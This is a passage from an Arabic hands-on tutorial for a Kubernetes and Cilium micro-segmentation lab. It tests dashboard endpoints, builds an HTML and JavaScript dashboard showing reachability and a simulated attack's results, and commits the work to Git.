إذا كان open أقل من total فبعض الخلايا تقول blocked أو refused. وظهور blocked في شبكة نظنها مسطحة يعني أن سياسات ما زالت محمّلة، ويجب أن يطبع kubectl -n campus get ciliumnetworkpolicies العبارة No resources found in campus namespace. ولا شيء غيرها. فإن سرد أي شيء نشغّل bash ~/microseg/deploy.sh لنبدأ بداية نظيفة. أمّا refused فيعني أن الـ Pod الهدف ليس جاهزاً، فنفحصه بالأمر kubectl -n campus get pods.
الخطوة 7. اختبار endpoints السياسات والإسقاطات
تحتاج endpoint السياسات إلى ملفات سنكتبها في الفصل 10، لكننا نستطيع منذ الآن أن نتأكد أنها تشغّل kubectl وتعيد إلينا إجابته.
curl -s -X POST localhost:5050/api/policies/remove | jq -r .outputيرسل -X POST طلب POST بدلاً من GET. وتقع remove في فرع else من الـ endpoint، وهو الفرع الذي يشغّل kubectl delete على مجلد السياسات. ويطبع jq -r .output ما قاله kubectl.
ما يجب أن نراه: خطأ من kubectl.
يبدأ السطر بـ error: ويقول إن المجلد k8s/policies غير موجود. ويظهر اسم مستخدمنا في Linux داخل المسار. هذا الخطأ هو النتيجة المتوقعة هنا، فالمجلد لن يظهر قبل الفصل 10. وهو يثبت أن الـ endpoint وصلت إلى kubectl وأعادت رسالته.
تقرأ endpoint الإسقاطات من Hubble عبر النفق الذي شغّلناه في الفصل 4، لذلك نتأكد أن النفق ما زال يعمل قبل أن نختبرها.
hubble statusيسأل hubble status مكوّن Hubble Relay، عبر النفق على الـ port 4245 في حاسوبنا، عن حاله وعن عدد الـ nodes التي يسمع منها.
ما يجب أن نراه: بضعة أسطر عن Hubble.
السطر الذي يجب أن يطابق هو Connected Nodes: 3/3، أي الـ nodes الثلاث في الـ cluster عندنا كلها. أمّا أعداد التدفقات فتختلف في كل تشغيل.
إذا ظهر سطر خطأ يحوي النص الآتي فالنفق لا يعمل، وهذا طبيعي بعد إعادة تشغيل Windows أو Ubuntu. وبقية ذلك السطر تختلف بين إصدارات Hubble.
failed to connect to 'localhost:4245'نشغّل النفق بـ cilium hubble port-forward &، وننتظر خمس ثوانٍ، ثم نشغّل hubble status مرة أخرى. يشغّل & النفق في خلفية هذه الـ terminal، فيظل يعمل ما دامت الـ terminal مفتوحة. وهو مثل لوحة التحكم يحتاج إلى تشغيل من جديد بعد كل إعادة تشغيل.
والآن endpoint الإسقاطات.
curl -s localhost:5050/api/drops | jqيطبع jq من دون مُرشِّح الإجابة كلها بإزاحة مرتبة.
ما يجب أن نراه: كائن فيه حقل واحد هو output.
في الشبكة المسطحة لم تُسقط أي سياسة شيئاً، لذلك يكون output في العادة سلسلة فارغة، "". وإذا احتوى أسطراً فكل سطر منها سجل تدفق من Hubble يبدأ بتاريخ، ولا يقول أي منها Policy denied. وفي الفصل 10 تمتلئ الـ endpoint نفسها بإسقاطات قادمة من news.
إذا ظهر شيء آخر
إذا احتوى output خطأً يذكر localhost:4245 بدلاً من سجلات التدفق فالنفق إلى Hubble توقف بعد فحص hubble status، وغالباً لأن الـ terminal التي كان يعمل فيها أُغلقت. نشغّله من جديد بـ cilium hubble port-forward & في terminal نُبقيها مفتوحة، ثم نكرر الطلب.
إذا ظل hubble status يفشل حتى بعد تشغيل النفق نشغّل cilium status وننظر إلى سطر Hubble Relay، ويجب أن يقول OK. فإن لم يقل ذلك فإن Hubble نفسه لا يعمل، وقسم Hubble في الفصل 4 يبيّن كيف نعيده.
endpoint الهجوم هي الوحيدة التي لا نختبرها في هذا الفصل. فهي تغيّر درجة عمر في قاعدة البيانات، والفصل 8 يبدأ بالنظر إلى تلك الدرجة قبل الهجوم. وإذا شغّلناها خطأً في أي وقت نعيد قاعدة البيانات إلى حالها بـ kubectl -n campus rollout restart deployment/db. فهذا الأمر يستبدل Pod الخدمة db، ولأن بياناته لا تُحفظ في أي مكان تعود درجة عمر إلى 58.
هنا تنتهي الجلسة الأولى. وإذا توقفنا هنا نضغط Ctrl+C في terminal لوحة التحكم.
وحين نعود، وغالباً بعد إعادة تشغيل Windows، نعيد الأجزاء الثلاثة كلها قبل الخطوة 8. نشغّل kubectl get nodes -L tier، فإن فشل نصلحه كما في الخطوة 1 من الفصل 6. ثم نشغّل لوحة التحكم في terminal بأمر الخطوة 3. وفي terminal ثانية نشغّل cilium hubble port-forward &، وننتظر خمس ثوانٍ، ثم نشغّل hubble status، الذي يجب أن يُظهر Connected Nodes: 3/3 كما رأينا أعلاه.
الخطوة 8. كتابة dashboard/index.html
تحوّل الصفحة بيانات JSON القادمة من الـ endpoints إلى رسم يتغير لونه وجدول، مع أزرار للأفعال. وهي HTML عادية مع قليل من JavaScript، اللغة التي تشغّلها المتصفحات، ولا تحتاج إلى أي خطوة بناء.
نفتح ملفاً جديداً في VS Code.
code ~/microseg/dashboard/index.htmlما يجب أن نراه: يفتح VS Code تبويباً فارغاً اسمه index.html. نلصق الملف الآتي ونحفظه.
<!doctype html>
<html>
<head>
<meta charset="utf-8">
<title>Micro-segmentation dashboard</title>
<style>
body { font-family: "Segoe UI", Arial, sans-serif; margin: 24px; max-width: 1000px; color: #13233F; }
section { margin-bottom: 28px; }
table { border-collapse: collapse; }
th, td { border: 1px solid #D5DAE2; padding: 4px 10px; text-align: center; }
.open { background: #E1EEF7; color: #0B4F7A; }
.blocked { background: #FBE7D9; color: #8A3B00; }
.refused { background: #F3F0D6; }
pre { background: #F4F6F9; padding: 8px; max-height: 320px; overflow: auto; white-space: pre-wrap; }
svg text { font-size: 13px; }
</style>
</head>
<body>
<h1>Campus Portal: micro-segmentation dashboard</h1>
<section>
<h2>Policies: <span id="policy-status">loading...</span></h2>
<button onclick="setPolicies('apply')">Apply policies</button>
<button onclick="setPolicies('remove')">Remove policies</button>
<pre id="policy-output"></pre>
</section>
<section>
<h2>Topology</h2>
<svg width="760" height="320">
<rect x="150" y="30" width="170" height="275" fill="#F4F6F9" stroke="#56627A"/>
<text x="158" y="50">kind-worker</text>
<text x="158" y="66">tier=frontend</text>
<rect x="360" y="30" width="370" height="275" fill="#F4F6F9" stroke="#56627A"/>
<text x="368" y="50">kind-worker2</text>
<text x="368" y="66">tier=backend</text>
<line x1="60" y1="160" x2="235" y2="100" stroke="#56627A" stroke-width="3"/>
<line data-src="frontend" data-dst="api" x1="235" y1="100" x2="440" y2="90" stroke="#56627A" stroke-width="3"/>
<line data-src="frontend" data-dst="news" x1="235" y1="100" x2="235" y2="230" stroke="#56627A" stroke-width="3"/>
<line data-src="api" data-dst="auth" x1="440" y1="90" x2="440" y2="180" stroke="#56627A" stroke-width="3"/>
<line data-src="api" data-dst="db" x1="440" y1="90" x2="640" y2="130" stroke="#56627A" stroke-width="3"/>
<line data-src="auth" data-dst="db" x1="440" y1="180" x2="640" y2="130" stroke="#56627A" stroke-width="3"/>
<line data-src="admin" data-dst="db" x1="640" y1="240" x2="640" y2="130" stroke="#56627A" stroke-width="3"/>
<line data-src="ops" data-dst="admin" x1="440" y1="280" x2="640" y2="240" stroke="#56627A" stroke-width="3"/>
<line data-src="news" data-dst="api" x1="235" y1="230" x2="440" y2="90" stroke="#56627A" stroke-width="2" stroke-dasharray="6"/>
<path data-src="news" data-dst="db" d="M 275 236 Q 560 250 618 144" fill="none" stroke="#56627A" stroke-width="2" stroke-dasharray="6"/>
<line data-src="news" data-dst="admin" x1="235" y1="230" x2="640" y2="240" stroke="#56627A" stroke-width="2" stroke-dasharray="6"/>
<rect x="15" y="146" width="90" height="28" fill="white" stroke="#13233F"/><text x="60" y="165" text-anchor="middle">Windows</text>
<rect x="195" y="86" width="80" height="28" fill="white" stroke="#13233F"/><text x="235" y="105" text-anchor="middle">frontend</text>
<rect x="195" y="216" width="80" height="28" fill="white" stroke="#13233F"/><text x="235" y="235" text-anchor="middle">news</text>
<rect x="400" y="76" width="80" height="28" fill="white" stroke="#13233F"/><text x="440" y="95" text-anchor="middle">api</text>
<rect x="400" y="166" width="80" height="28" fill="white" stroke="#13233F"/><text x="440" y="185" text-anchor="middle">auth</text>
<rect x="400" y="266" width="80" height="28" fill="white" stroke="#13233F"/><text x="440" y="285" text-anchor="middle">ops</text>
<rect x="600" y="116" width="80" height="28" fill="white" stroke="#13233F"/><text x="640" y="135" text-anchor="middle">db</text>
<rect x="600" y="226" width="80" height="28" fill="white" stroke="#13233F"/><text x="640" y="245" text-anchor="middle">admin</text>
</svg>
<p>Solid lines are the paths the portal needs. Dashed lines are attacker paths from news. Blue means reachable, orange means blocked.</p>
<pre id="pods"></pre>
</section>
<section>
<h2>Reachability matrix <button onclick="loadMatrix()">Refresh</button></h2>
<p id="matrix-summary"></p>
<table id="matrix"></table>
</section>
<section>
<h2>Attack from the news pod <button onclick="runAttack()">Run attack</button></h2>
<p id="attack-summary"></p>
<pre id="attack-log"></pre>
</section>
<section>
<h2>Recent Hubble drops <button onclick="loadDrops()">Refresh</button></h2>
<pre id="drops"></pre>
</section>
<script>
async function getJSON(url, options) {
const answer = await fetch(url, options);
return answer.json();
}
async function loadStatus() {
const data = await getJSON("/api/status");
let text = "OFF";
if (data.policies.length > 0) {
text = "ON (" + data.policies.length + " policies)";
}
document.getElementById("policy-status").textContent = text;
document.getElementById("pods").textContent = data.pods;
}
async function setPolicies(action) {
document.getElementById("policy-output").textContent = "Working...";
const data = await getJSON("/api/policies/" + action, {method: "POST"});
document.getElementById("policy-output").textContent = data.output;
await loadStatus();
setTimeout(loadMatrix, 5000); // give Cilium a few seconds to update every pod
}
async function loadMatrix() {
document.getElementById("matrix-summary").textContent = "Probing (a few seconds)...";
const data = await getJSON("/api/matrix");
let html = "<tr><th>from \\ to</th>";
for (const target of data.targets) {
html += "<th>" + target + "</th>";
}
html += "</tr>";
for (const source of data.sources) {
html += "<tr><th>" + source + "</th>";
for (const target of data.targets) {
const state = data.matrix[source][target] || "self";
html += '<td class="' + state + '">' + state + "</td>";
}
html += "</tr>";
}
document.getElementById("matrix").innerHTML = html;
document.getElementById("matrix-summary").textContent = data.open + " of " + data.total + " paths reachable";
for (const line of document.querySelectorAll("[data-src]")) {
const state = data.matrix[line.dataset.src][line.dataset.dst];
line.style.stroke = (state === "open") ? "#0072B2" : "#D55E00";
}
}
async function runAttack() {
document.getElementById("attack-summary").textContent = "Running 5 steps (up to 30 seconds)...";
const steps = await getJSON("/api/attack", {method: "POST"});
let log = "";
let succeeded = 0;
for (const step of steps) {
if (step.success) {
succeeded += 1;
}
log += (step.success ? "[SUCCESS] " : "[FAILED] ") + step.step + "\n" + step.output + "\n\n";
}
document.getElementById("attack-summary").textContent = succeeded + " of " + steps.length + " attack steps succeeded";
document.getElementById("attack-log").textContent = log;
}
async function loadDrops() {
document.getElementById("drops").textContent = "Loading...";
const data = await getJSON("/api/drops");
document.getElementById("drops").textContent = data.output || "(no drops)";
}
loadStatus();
loadMatrix();
</script>
</body>
</html>(1) تحدد كتلة <style> الألوان. الخلايا المفتوحة زرقاء، والمحجوبة برتقالية، والمرفوضة صفراء باهتة.
(2) يعرض أول <section> حالة السياسات في عنوانه، وفيه الزران Apply policies وRemove policies. يستدعي كل زر الدالة setPolicies مع apply أو remove، وهي ترسل طلب POST إلى الـ endpoint التي اختبرناها في الخطوة 7.
(3) مخطط الشبكة رسم SVG، أي رسم مكتوب نصاً. فيه إطاران رماديان فاتحان للـ worker nodes الاثنتين، على كل منهما اسم الـ node وفئتها (Tier)، وصناديق بيضاء للخدمات موضوعة على الـ node التي تعمل عليها كل خدمة. وكل خط يمثل مساراً يحمل data-src وdata-dst، أي المصدر والهدف اللذين ينتمي إليهما. وهذه مسارات المهاجم الثلاثة.
<line data-src="news" data-dst="api" x1="235" y1="230" x2="440" y2="90" stroke="#56627A" stroke-width="2" stroke-dasharray="6"/>
<path data-src="news" data-dst="db" d="M 275 236 Q 560 250 618 144" fill="none" stroke="#56627A" stroke-width="2" stroke-dasharray="6"/>
<line data-src="news" data-dst="admin" x1="235" y1="230" x2="640" y2="240" stroke="#56627A" stroke-width="2" stroke-dasharray="6"/>يجعلها stroke-dasharray متقطعة. والمسار من news إلى db عنصر <path>، وهو منحنى ينعطف تحت صندوق auth كي لا يُخفي الخط الواصل من auth إلى db. وفي الرسم 8 خطوط متصلة، هي التدفقات الثمانية التي تحتاج إليها البوابة. سبعة منها تصل بين Pods ويتغير لونها. أمّا الخط من Windows إلى frontend فليس له data-src. ولهذا يبقى رمادياً دائماً.
(4) في كل قسم من أقسام المصفوفة والهجوم والإسقاطات عنصر فارغ، <table> أو <pre>، يملؤه السكربت. ويحافظ <pre> على المسافات ونهايات الأسطر في ناتج الأوامر.
(5) يبدأ السكربت بـ getJSON، وهي دالة مساعدة ترسل طلباً بـ fetch، الوسيلة المدمجة في المتصفح لاستدعاء endpoint، وتعيد إجابة JSON. وتملأ loadStatus العنوان بـ OFF أو ON وعدد السياسات، وتطبع جدول الـ Pods.
(6) ترسل setPolicies الفعل بطلب POST، وتعرض إجابة kubectl، وتحدّث الحالة. ثم تنتظر 5 ثوانٍ قبل أن تحدّث المصفوفة، لأن Cilium يحتاج إلى بضع ثوانٍ ليحدّث كل Pod بعد أي تغيير في السياسات.
(7) loadMatrix هي أطول دالة.
for (const source of data.sources) {
html += "<tr><th>" + source + "</th>";
for (const target of data.targets) {
const state = data.matrix[source][target] || "self";
html += '<td class="' + state + '">' + state + "</td>";
}
html += "</tr>";
}
document.getElementById("matrix").innerHTML = html;
document.getElementById("matrix-summary").textContent = data.open + " of " + data.total + " paths reachable";
for (const line of document.querySelectorAll("[data-src]")) {
const state = data.matrix[line.dataset.src][line.dataset.dst];
line.style.stroke = (state === "open") ? "#0072B2" : "#D55E00";
}لكل مصدر وهدف تكتب خلية جدول واحدة صنفها (Class) هو حالة الخلية، فتنطبق عليها الألوان المحددة في كتلة <style>. والزوج الذي يكوّنه المصدر مع نفسه ليس له مدخل في المصفوفة، فيكتب || "self" مكانه self. ويصبح سطر الملخص مثلاً 36 of 36 paths reachable. وتجد الحلقة الأخيرة كل عنصر في الرسم له data-src، والمنحنى منها، فتلوّنه بالأزرق إذا كان مساره مفتوحاً وبالبرتقالي إذا لم يكن.
(8) ترسل runAttack طلب POST إلى endpoint الهجوم وتعدّ الخطوات التي نجحت. وتعرض [SUCCESS] أو [FAILED] بجانب كل خطوة، ثم ناتج الخطوة نفسها. وتعرض loadDrops الإسقاطات أو (no drops).
(9) يدخل كل ناتج للأوامر إلى الصفحة عبر textContent، الذي يعرضه نصاً عادياً. أمّا مع innerHTML فسيقرؤه المتصفح على أنه HTML، وناتج الهجوم نص يتحكم فيه المهاجم. ويستخدم جدول المصفوفة innerHTML بأمان، لأنه مبني فقط من أسمائنا وحالاتنا الثابتة.
(10) يعمل السطران الأخيران، loadStatus() وloadMatrix()، مرة واحدة عند فتح الصفحة، فتعرض الصفحة الحالة الراهنة من دون أي نقرة.
تقرأ لوحة التحكم index.html من القرص مع كل طلب، لذلك لا نحتاج إلى إعادة تشغيلها بعد حفظ هذا الملف.
الخطوة 9. فتح لوحة التحكم

نتأكد أولاً أن الواجهة الخلفية تقدّم الصفحة.
curl -s -o /dev/null -w '%{http_code}\n' localhost:5050/يتخلّص -o /dev/null من الصفحة، ويطبع -w '%{http_code}\n' رمز حالة HTTP وحده متبوعاً بسطر جديد.
ما يجب أن نراه: رقم واحد.
يجب أن يكون 200.
نفتح الآن Edge أو Chrome في Windows ونذهب إلى http://localhost:5050. ويجعل WSL هذا الـ port متاحاً في Windows، كما يفعل مع port البوابة. وبعد اكتمال التحميل تعرض الصفحة ما يأتي، من الأعلى إلى الأسفل.
يظهر في العنوان Policies: OFF. وتحته رسم مخطط الشبكة، وكل خطوط المسارات فيه زرقاء ما عدا الخط الرمادي من Windows إلى frontend، لأن كل المسارات مفتوحة، وتحت الرسم جدول الـ Pods نفسه الذي طبعناه في الخطوة 4. وفي مصفوفة قابلية الوصول سبعة صفوف وستة أعمدة. ست وثلاثون خلية تقول open على خلفية زرقاء، وست خلايا على القطر تقول self بلا لون. وليس لـ ops خلية self لأنها ليست هدفاً. وفوق الجدول يقول الملخص 36 of 36 paths reachable. ويبقى قسما الهجوم والإسقاطات فارغين حتى ننقر أزرارهما.
ننقر Refresh في قسم Recent Hubble drops. فيظهر (no drops) أو بضعة أسطر تدفق، مثل ما أعادته endpoint الإسقاطات في الخطوة 7، ما دام نفق Hubble يعمل.
لا ننقر Run attack ولا Apply policies الآن. فالهجوم يغيّر درجة عمر، والفصل 8 يحتاج إلى أن يراها 58 أولاً، وملفات السياسات لن توجد قبل الفصل 10. والصفحة أطول من شاشة واحدة، لذلك نلتقط صورتين للشاشة، واحدة للنصف العلوي وأخرى للنصف السفلي بعد التمرير إلى الأسفل. نضغط Windows+PrtScn لكل منهما، فتُحفظ الشاشة كاملة مع ساعة شريط المهام في المجلد Pictures\Screenshots. ثم نغيّر اسميهما إلى ch09-dashboard-top.png وch09-dashboard-bottom.png. هاتان صورتا «قبل» في تقريرنا.
إذا ظهر شيء آخر
إذا قال المتصفح إنه لا يستطيع الوصول إلى الصفحة، أو إن localhost رفض الاتصال، فإمّا أن لوحة التحكم لا تعمل، وإمّا أن Ubuntu توقف عند إغلاق آخر نافذة له. ننظر في terminal لوحة التحكم ونشغّلها من جديد كما في الخطوة 3.
إذا بقي العنوان عند Policies: loading... وبقي الملخص عند Probing (a few seconds)... فالصفحة حُمّلت لكن استدعاءاتها للـ endpoints فشلت. ننظر في terminal لوحة التحكم، والسطر الأخير من تقرير التتبع فيها يسمّي الخطأ، ثم نكرر اختبارات curl في الخطوتين 4 و6، فهي تُظهر الفشل نفسه بوضوح أكبر.
إذا شغّلنا الهجوم رغم ذلك نعيد ضبط قاعدة البيانات بالأمر kubectl -n campus rollout restart deployment/db قبل أن نبدأ الفصل 8.
نقطة التحقق
نطلب من endpoint المصفوفة العددين مرة أخرى.
curl -s localhost:5050/api/matrix | jq -c '{open, total}'يجب أن تكون النتيجة {"open":36,"total":36} بالضبط، ويجب أن تُظهر صفحة لوحة التحكم 36 of 36 paths reachable بعد أن ننقر زر Refresh في قسم المصفوفة. لا نبدأ الفصل 8 قبل أن يتطابق الاثنان.
نسجّل عملنا في Git بـ commit.
cd ~/microseg && git add -A && git commit -m "ch07: dashboard"يبدأ السطر الأول بـ [main ورمز قصير يختلف على حاسوبنا، تليه رسالتنا. ويعدّ السطر التالي الملفات التي تغيّرت، وعددها 2 إذا كان آخر commit لنا في نهاية الفصل 6، وهما dashboard/app.py وdashboard/index.html. ولا يدخل فيها مجلد __pycache__، لأن .gitignore يستبعده.